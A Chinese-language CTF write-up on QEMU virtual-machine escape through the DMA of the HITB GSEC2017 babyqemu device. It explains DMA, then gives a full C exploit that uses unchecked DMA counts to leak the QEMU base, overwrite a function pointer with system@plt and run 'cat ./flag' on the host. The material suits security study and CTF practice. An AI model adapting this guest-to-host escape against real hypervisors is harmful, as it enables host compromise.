 # QEMU逃逸  --  dma

> `DMA(Direct Memory Access)`：直接内存访问

## 0x00 DMA

`DMA(Direct Memory Access)`：直接内存访问

有两种方式引发数据传输：

第一种情况：软件对数据的请求

- 当进程调用`read`，驱动程序函数分配一个`DMA`缓冲区，并让硬件将数据传输到这个缓冲区中，进程处于睡眠状态；

- 硬件将数据写入到`DMA`缓冲区中，当写入完毕，产生一个中断

- 中断处理程序获取输入的数据，应答中断，并唤起进程，该进程现在即可读取数据

  第二种情况：在异步使用`DMA`时

- 硬件产生中断，宣告新数据的到来

- 中断处理程序分配一个缓冲区，并且告诉硬件向哪里传输数据

- 外围设备将数据写入数据区，完成后，产生另外一个中断

- 处理程序分发数据，唤醒任何相关进程，然后执行清理工作

DMA控制器必须有以下功能：

1、 能向CPU发出系统保持(HOLD)信号，提出总线接管请求；

2、 当CPU发出允许接管信号后，负责对总线的控制，进入DMA方式；

3、 能对存储器寻址及能修改地址指针，实现对内存的读写操作；

4、 能决定本次DMA传送的字节数，判断DMA传送是否结束；

5、 发出DMA结束信号，使CPU恢复正常工作状态。

**注意：**当虚拟机通过`DMA（Direct Memory Access）`访问大块`I/O`时，`QEMU`模拟程序将不会把结果放进共享页中，而是通过内存映射的方式将结果直接写到虚拟机的内存中，然后通知`KVM`模块告诉客户机`DMA`操作已经完成。

## 0x01 HITB GSEC2017 babyqemu

DMA存在越界读和越界写

> 本质上是完全没有检查dma.cnt的数字

泄露qemu_elf_base，寻找system的plt表地址，填入“cat flag”字符串

## 0x02 exploit

````c
#include<stdint.h>
#include<fcntl.h>
#include<sys/mman.h>
#include<sys/io.h>
#include<stdio.h>
#include<unistd.h>

unsigned char* mmio_mem;
uint64_t phy_userbuf;
char *userbuf;

void Err(char * err){
    printf("[*] Error: %s\n",err);
    exit(-1);
}

void init_mmio(){
    int mmio_fd = open("/sys/devices/pci0000:00/0000:00:04.0/resource0",O_RDWR|O_SYNC);
    mmio_mem = mmap(0,0x1000,PROT_READ|PROT_WRITE,MAP_SHARED,mmio_fd,0);
}

void mmio_write(uint32_t addr,uint32_t value){
    *(uint32_t*)(mmio_mem+addr) = value;
}

uint64_t mmio_read(uint64_t addr){
    return *(uint64_t*)(mmio_mem+addr); 
}

size_t va2pa(void *addr){
    uint64_t data;

    int fd = open("/proc/self/pagemap",O_RDONLY);
    if(!fd){
        perror("open pagemap");
        return 0;
    }

    size_t pagesize = getpagesize();
    size_t offset = ((uintptr_t)addr / pagesize) * sizeof(uint64_t);

    if(lseek(fd,offset,SEEK_SET) < 0){
        puts("lseek");
        close(fd);
        return 0;
    }

    if(read(fd,&data,8) != 8){
        puts("read");
        close(fd);
        return 0;
    }

    if(!(data & (((uint64_t)1 << 63)))){
        puts("page");
        close(fd);
        return 0;
    }

    size_t pageframenum = data & ((1ull << 55) - 1);
    size_t phyaddr = pageframenum * pagesize + (uintptr_t)addr % pagesize;

    close(fd);

    return phyaddr;
}

uint64_t dma_get_src(){
    return mmio_read(0x80);
}

uint64_t dma_get_dst(){
    return mmio_read(0x88);
}

uint64_t dma_get_cnt(){
    return mmio_read(0x90);
}

uint64_t dma_get_cmd(){
    return mmio_read(0x98);
}

void dma_set_src(uint32_t value){
    mmio_write(0x80,value);
}

void dma_set_dst(uint32_t value){
    mmio_write(0x88,value);
}

void dma_set_cnt(uint32_t value){
    mmio_write(0x90,value);
}

void dma_set_cmd(uint32_t value){ // timer
    mmio_write(0x98,value);
}

void dma_do_write(uint32_t addr, void* buf, size_t len){
    memcpy(userbuf, buf, len);

    dma_set_src(phy_userbuf);
    dma_set_dst(addr);
    dma_set_cnt(len);

    dma_set_cmd(1);
    sleep(1);
}

void dma_do_enc(uint32_t addr, size_t len){
    dma_set_src(addr);
    dma_set_cnt(len);

    dma_set_cmd(7);
}


int main(){
    init_mmio();
    puts("[*] init mmio");
    printf("[*] mmio_mem ==> 0x%llx\n",mmio_mem);

    userbuf = mmap(0, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED | MAP_ANONYMOUS, -1, 0);
    memset(userbuf,0,0x1000);
    phy_userbuf = va2pa(userbuf);
    printf("[*] userbuf ==> 0x%llx\n",userbuf);
    printf("[*] phy_userbuf ==> 0x%llx\n",phy_userbuf);

    puts("[*] leak addr");
    dma_set_src(0x40000+0x1000);
    dma_set_dst(phy_userbuf);
    dma_set_cnt(0x8);
    dma_set_cmd(0x3);
    sleep(1);

    size_t enc_addr = *(size_t*)userbuf;
    printf("[*] enc_addr ==> 0x%llx\n",enc_addr);
    size_t qemu_base = enc_addr-0x283dd0;
    printf("[*] qemu_base ==> 0x%llx\n",qemu_base);
    size_t system_plt = qemu_base+0x1FDB18;
    printf("[*] system_plt ==> 0x%llx\n",system_plt);

    puts("[*] edit enc ==> system@plt");
    dma_do_write(0x40000+0x1000, &system_plt, 0x8);

    puts("[*] set 'cat flag' ");
    char* catflag = "cat ./flag\x00\x00";
    dma_do_write(0x200+0x40000, catflag, 12);
    // pause();
    puts("[*] enc 'cat flag' ");
    dma_do_enc(0x200+0x40000, 8);

    return 0;
}
````

